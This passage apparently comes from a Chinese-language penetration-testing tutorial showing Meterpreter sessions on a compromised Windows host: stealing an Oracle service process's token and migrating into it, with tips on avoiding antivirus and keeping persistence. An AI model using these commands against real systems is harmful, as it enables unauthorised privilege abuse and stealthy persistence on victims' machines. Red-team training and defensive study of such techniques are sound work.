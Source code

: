 ```console
Server username: NT AUTHORITY\SYSTEM
```

> 注：在实际使用过程中，经常遇见 incognito 列出的 token 不全面的情况。

窃取指定进程的 token：

```console
meterpreter > ps | grep oracle
Filtering on 'oracle'

Process List
============

 PID   PPID  Name        Arch  Session  User                          Path
 ---   ----  ----        ----  -------  ----                          ----
 3176  652   oracle.exe  x64   0        NT SERVICE\OracleServiceORCL  C:\WINDOWS.X64_193000_db_home\bin\oracle.exe

meterpreter > steal_token 3176
Stolen token with username: NT SERVICE\OracleServiceORCL
meterpreter >
```

进程迁移：

```console
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getpid
Current pid: 6668
meterpreter > ps | grep oracle
Filtering on 'oracle'

Process List
============

 PID   PPID  Name        Arch  Session  User                          Path
 ---   ----  ----        ----  -------  ----                          ----
 3176  652   oracle.exe  x64   0        NT SERVICE\OracleServiceORCL  C:\WINDOWS.X64_193000_db_home\bin\oracle.exe

meterpreter > migrate 3176
[*] Migrating from 6668 to 3176...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT SERVICE\OracleServiceORCL
meterpreter > getpid
Current pid: 3176
meterpreter >
```

> 注：进程迁移操作一定要谨慎。一方面是进程迁移后会有被杀软查杀的风险；另一方面是当迁移到低权限进程后，无法再迁移回来。在迁移进程前一定要做好权限维持、派生好新会话。
